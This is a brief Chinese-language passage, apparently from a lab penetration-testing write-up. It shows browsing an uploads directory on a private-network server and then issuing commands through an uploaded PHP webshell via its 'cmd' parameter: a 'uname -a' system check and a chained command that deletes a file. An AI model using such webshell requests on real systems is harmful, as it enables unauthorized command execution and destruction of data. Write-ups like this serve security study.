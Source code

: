 
- 设值url为 `http://192.168.163.3/admin/uploads/`，可查看服务器目录

    ![](img/20181102-52.png)

- 利用Webshell
    - 查看系统版本 `http://192.168.163.3/admin/uploads/test.php3?cmd=uname -a`

        ![](img/20181102-51.png)
    - 尝试删除文件 test.php.haha, `http://192.168.163.3/admin/uploads/test.php3?cmd=ls;del test.php.haha;echo OK!`
